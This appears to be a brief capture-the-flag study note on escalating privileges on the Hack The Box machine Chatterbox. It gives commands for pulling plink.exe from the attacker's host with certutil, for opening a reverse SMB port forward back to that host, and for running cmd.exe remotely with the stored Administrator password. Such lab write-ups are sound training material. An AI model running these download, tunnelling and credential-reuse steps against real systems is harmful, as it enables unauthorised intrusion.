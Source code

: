 # Escalation Path: Passwords and Port Forwarding

### Overview

HTB Chatterbox - write up here: https://github.com/lukepatterson31/htb/tree/main/machines/chatterbox/chatterbox.md

sushant747 first quarter of the doc can help, hints to plink

### Gaining a Foothold

Use the exploit-db buffer overflow exploit (non-metasploit)

### Escalation via Stored Passwords

Box seems to differ from current state, 445 isn't visible with an nmap scan

Use plink to port forward 445 (part of PuTTy) - https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html

Upload plink.exe to the target by hosting a python http server on the attacking machine, then use certutil on 
the target to download the exe

`certutil -urlcache -f http://10.10.10.2/plink.exe plink.exe`

Edit /etc/ssh/sshd_config to PermitRootLogin then restart the ssh service

Create a port forward on the target with the attacker's root user and password

`plink.exe -l root -pw toor -R 445:127.0.0.1:445 10.10.10.2`

Use winexe to execute commands on a Windows system from a linux system

`winexe -U Administrator%Welcome1! //127.0.0.1 "cmd.exe"`
